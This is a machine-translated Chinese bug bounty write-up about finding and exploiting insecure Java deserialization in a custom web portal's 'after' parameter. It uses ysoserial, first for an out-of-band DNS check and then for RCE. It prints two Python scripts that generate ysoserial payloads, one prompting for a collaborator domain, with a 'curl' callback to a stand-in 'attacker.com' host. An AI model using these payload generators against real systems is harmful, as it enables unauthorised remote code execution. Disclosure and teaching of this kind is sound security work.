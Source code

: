 # Java Web 应用程序上的 RCE 的故事

> 原文：<https://infosecwriteups.com/the-story-of-a-rce-on-a-java-web-application-2e400cddcd1e?source=collection_archive---------0----------------------->

大约两个月前(2021 年 11 月)，我受邀参加了一个私人项目。根据他们的程序范围，我决定黑他们一段时间。这篇文章是关于我在这家公司发现的一个导致 RCE 的漏洞。

# 侦察

在这一步，我的侦查方法没有发现一些独特的子域或资产。我在搜索一些具有一些有趣功能的网络应用程序，比如登录或文件上传。过了一会儿，我发现了一个有趣的入口。

在接下来的内容中，为了学习它的功能，我不得不重新定位门户本身。作为一个正常的套路，我尝试以一个正常用户的身份使用 web 应用(如果你不了解应用的正常流程，你是无法破解的)。我写下重要的事情，然后打开打嗝。

# 发现

我被门户吸引是因为它是定制的，这种门户、CMSes 或论坛通常比公共版本(如 WordPress)更容易受到攻击。在 Burp 中捕获请求时，我一直在测试各个部分，直到到达一个包含列表的页面，当我滚动该页面时，Java Script 发送了一个 Ajax 请求来加载更多的行。请求是这样的:

```
[https://target.com/api/v1/list?size=25&after=rO0aTm90aGluZyBIZXJlIDovIEp1c3QgYSBzZXJpYWxpemVkIHZhbHVlCg==](https://target.com/api/v1/list?size=25&after=rO0aTm90aGluZyBIZXJlIDovIEp1c3QgYSBzZXJpYWxpemVkIHZhbHVlCg==)
```

![](img/bbaf0bdd039ae2f4cb0a68c7745e9e4f.png)

我尝试的第一件事是解码`after`参数值(如你所知，是 base64)。它有一个二进制值，但一些字符解码成功:

![](img/9691e9e6df090e96476b02a3c7a224cb.png)

正如你所看到的，`java`被解码了，我猜是一个序列化的值(通过一些研究，我很确定，因为它是以`rO0`开始的)。

# 反序列化

如您所知，序列化是将 [](https://en.wikipedia.org/wiki/Data_structure) 数据结构或 [](https://en.wikipedia.org/wiki/Object_(computer_science)) 对象状态转换为可存储(例如，在文件中)或可通过网络传输的格式的过程。相反的操作，从一系列字节中提取一个数据结构，就是**反序列化** ( [维基百科](https://en.wikipedia.org/wiki/Serialization))。

一些程序使用序列化来存储状态，然后使用反序列化来恢复状态(就像我们测试的 web 应用程序一样)。但是如果程序反序列化一个不安全的输入会发生什么呢？这里是**不安全反序列化**发挥作用的地方。在这个漏洞中(也在 OWASP A8:2021 中)，攻击者发送他们的恶意序列化值作为易受攻击程序的输入。这通常会导致特权升级和 RCE。不安全的反序列化在各种编程语言中都有发生，但我主要关注 Java。

![](img/b4ea25ad08e3d9b714461b649c2106a2.png)

geeksforgeeks.com

# 漏洞

我之前提到过，在对序列化值进行解码之后，我开始研究 Java 中的反序列化(虽然我对白盒的东西从来不感兴趣，但是我也研究了 Java 中的序列化函数:)。作为研究的结果，我了解到我们可以以不同的格式给出序列化的输入，例如:

```
Hex signature      ->   AC ED 00 05Base64 signature   ->   rO0
```

目标使用 base64，因此我们必须找到一种方法来为 RCE 创建恶意的序列化输入，但在此之前，我们应该确保目标是易受攻击的。这里我有两种方法:1。用 Java 写一个 PoC 代码(我当时不懂 Java ) 2。公开使用可用的 PoC 代码。我很确定第二种方式对我来说更好(尽管我不想成为一个脚本小子)。于是我开始在 GitHub 里搜索一些 PoC 代码，找到了 [**ysoserial**](https://github.com/frohoff/ysoserial) 。该工具根据功能或版本生成各种有效载荷，其中一个有效载荷是 *URLDNS* ，你可以给它一个 URL，它就会生成一个有效载荷。如果我们给出生成的有效载荷并从服务器获得 DNS 查询，程序就容易受到攻击。换句话说，我必须进行带外测试，以确保应用程序易受攻击。我生成了有效载荷，并把它交给了 web 应用程序；

![](img/f45cd05b725e8175ef32c968488970be.png)

我收到一些 DNS 查询，目标很脆弱。让我们利用它。

# 剥削

我确信我可以利用它，但有一个问题。我又用了 ysoserial 但是我很震惊，因为它不起作用(至少我没有找到任何合适的有效载荷)。我放弃了，开始在门户上寻找其他 bug。

2-3 周后，我决定再做一次。像以前一样，我不得不想办法:1。用 Java 2 为 RCE 编写一个漏洞利用代码。在 GitHub(或任何地方)寻找漏洞代码。我选择了第二种方式(通常会有漏洞代码)。这一次，我发现了一些带有一些额外负载/选项的 ysoserial forks。我无法手动测试这些有效载荷(它们太多了)。因此，我编写了一个 python 脚本来生成所有可能的有效载荷，并将它们保存在一个文件中。然后我把那个文件给了打饱嗝的入侵者，但还是没用。该脚本的最终版本是这样的:

```
import os

modes = [] # All payload names here

collab = "attacker.com"
payload = f"curl -s https://rce.{collab}/poc"

for i in range(0,6):

    for mode in modes:
            result = os.popen('java -jar ysoserial' + f"{i}" + '.jar ' + mode + ' "' + payload + '" | base64 -w 0').read()

    if result != "":
            print(result)
    else:
            print("Donno but something is going wrong :/")
```

# 第二次尝试

当我没有收到目标的任何请求时，我有点放弃了，但是我看了看回应。一些状态代码是 400，或者其他一些响应包含 Java 错误。通过一些故障排除，我注意到 base64 中的一些字符破坏了请求(例如`+`)。所以我必须在保存之前修改我的 python 脚本和 URL 编码。第二次，我把新单词表给了打嗝的入侵者，几秒钟后:

![](img/4bbc44afb753dd262e805c8c37014c5d.png)

这意味着我能够在服务器(RCE)上执行我的命令。在找到正确的有效负载和正确的 ysoserial 分支后，我用 Python 编写了一个漏洞利用代码，以便于复制:

```
import os
import urllib.parse

mode = "THAT_FOUNDED_SUITABLE_MODE"

collab = input("Enter your collaborator domain (e.g. attacker.com)> ")
payload = f"curl -s https://{collab}/poc"

result = os.popen('java -jar ysoserial4.jar ' + mode + ' "' + payload + '" | base64 -w0').read()

encoded = urllib.parse.quote_plus(result)

if encoded != "":
    print("Copy the following payload:\n\n")
    print(encoded)
else:
    print("Donno but something is going wrong :/")
```

最后我创建了`/tmp/poc.txt`并报告了漏洞。对于 PoC，这就足够了。

# 经验教训

*   总是解码任何 base64 或其他编码文本。
*   公共工具是好的，但是如果我用 Java 编写自己的漏洞利用代码，我会更快地发现这个漏洞。
*   总是测试每个功能，有时，你必须滚动页面:)
*   有时候，我们也不得不做那些无聊的工作。
*   默认情况下，Burp 入侵者对给定的有效载荷进行编码。但是这个特性在我的打嗝中被关闭了，虽然我在 Python 脚本中解决了这个问题，但是我发现这个特性是一个更好的解决方案。

# 资源

*   [https://www.geeksforgeeks.org/serialization-in-java/](https://www.geeksforgeeks.org/serialization-in-java/)
*   [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)
*   [https://www.baeldung.com/java-serialization](https://www.baeldung.com/java-serialization)
*   [https://www.javatpoint.com/serialization-in-java](https://www.javatpoint.com/serialization-in-java)
*   [https://www.tutorialspoint.com/java/java_serialization.htm](https://www.tutorialspoint.com/java/java_serialization.htm)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)